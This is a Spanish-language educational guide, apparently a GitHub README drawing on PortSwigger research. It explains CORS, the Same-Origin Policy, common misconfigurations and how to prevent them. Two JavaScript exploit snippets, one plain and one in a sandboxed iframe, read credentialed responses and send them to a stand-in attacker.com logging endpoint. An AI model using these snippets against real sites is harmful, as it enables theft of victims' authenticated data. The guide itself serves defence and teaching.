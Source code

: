 # Cross-Origin Resource Sharing

## 📂 Introducción

CORS (Cross-Origin Resource Sharing) es un mecanismo implementado por los navegadores modernos que permite el acceso controlado a recursos ubicados en un dominio distinto al de la página que realiza la solicitud. Esta guía, basada en el contenido de [PortSwigger Research](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties), explica qué es CORS, cómo funciona, ejemplos de configuraciones vulnerables y cómo prevenir ataques relacionados.

## ❓ ¿Qué es CORS?

CORS es un protocolo basado en cabeceras HTTP que permite a un servidor indicar qué orígenes (dominios) externos pueden acceder a sus recursos. Su propósito es **relajar la Same-Origin Policy (SOP)**, una política de seguridad que impide que un sitio web lea contenido de otro sitio diferente.

> ⚠ Importante: CORS **no es una defensa contra ataques cross-origin como CSRF**.

## 🔐 Same-Origin Policy (SOP)

La SOP impide que scripts cargados desde un origen accedan a datos de otro origen diferente (diferente dominio, puerto o protocolo). Esta restricción protege la privacidad del usuario al evitar fugas de información entre sitios.

### Ejemplo:

Un script cargado desde `https://ejemplo.com` **no podrá acceder** al contenido de `https://api.ejemplo.com` sin una política CORS adecuada.

## ⚖️ Flexibilización controlada mediante CORS

CORS permite que el servidor indique explícitamente qué orígenes están autorizados para acceder a sus recursos, usando cabeceras como:

* `Access-Control-Allow-Origin`
* `Access-Control-Allow-Credentials`
* `Access-Control-Allow-Methods`
* `Access-Control-Allow-Headers`

El navegador realiza una "negociación" previa (preflight) cuando se trata de solicitudes complejas, utilizando el método `OPTIONS` para consultar las reglas del servidor.

## ⚡ Ejemplo de ataque por mala configuración de CORS

### Caso: servidor refleja el header `Origin`

**Solicitud maliciosa:**

```http
GET /sensitive-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://attacker.com
Cookie: sessionid=...
```

**Respuesta del servidor vulnerable:**

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://attacker.com
Access-Control-Allow-Credentials: true
```

**Exploit en JavaScript:**

```javascript
var req = new XMLHttpRequest();
req.onload = function() {
    location = 'https://attacker.com/log?data=' + this.responseText;
};
req.open('GET', 'https://vulnerable-website.com/sensitive-data', true);
req.withCredentials = true;
req.send();
```

Este código permite al atacante **leer información sensible** desde el navegador de la víctima autenticada.

## 🚨 Otras configuraciones inseguras

### 🔒 1. Errores en el parseo de dominios

* Whitelist mal implementada: permitir cualquier dominio que termine en `example.com` puede permitir `attackerexample.com`
* O permitir cualquier dominio que comience con `example.com` permite `example.com.attacker.com`

### 🔒 2. Whitelist que acepta `null` como origen

Navegadores pueden enviar `Origin: null` en ciertos escenarios:

* `file://` URLs
* iframes con sandbox
* Redirecciones entre sitios

**Respuesta vulnerable:**

```http
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

**Exploit con iframe sandbox:**

```html
<iframe sandbox="allow-scripts allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = function() {
  location = 'https://attacker.com/log?data=' + this.responseText;
};
req.open('GET', 'https://vulnerable.com/data', true);
req.withCredentials = true;
req.send();
</script>"></iframe>
```

## ᾑ6 Consejos para prevenir ataques CORS

* **Nunca reflejar el ********`Origin`******** directamente** en `Access-Control-Allow-Origin`.
* Usar una **whitelist validada con exactitud** (sin regex permisivos).
* \*\*Nunca permitir \*\***`Access-Control-Allow-Credentials: true`** junto con `*` como origen.
* Bloquear `Origin: null` salvo que sea explícitamente necesario.
* Monitorear las cabeceras de respuesta y realizar auditorías regulares.

## 🔗 Enlaces de interés

* [CORS official MDN documentation](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)
* [Same-Origin Policy explicada](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)
* [CORS vulnerability research by PortSwigger](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)
* [CORS misconfig checker](https://github.com/s0md3v/Corsy)

---

